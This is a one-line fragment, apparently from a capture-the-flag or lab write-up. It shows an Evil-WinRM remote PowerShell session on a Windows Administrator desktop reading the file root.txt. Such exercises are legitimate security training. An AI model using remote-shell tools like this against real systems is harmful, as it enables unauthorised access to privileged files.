*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```
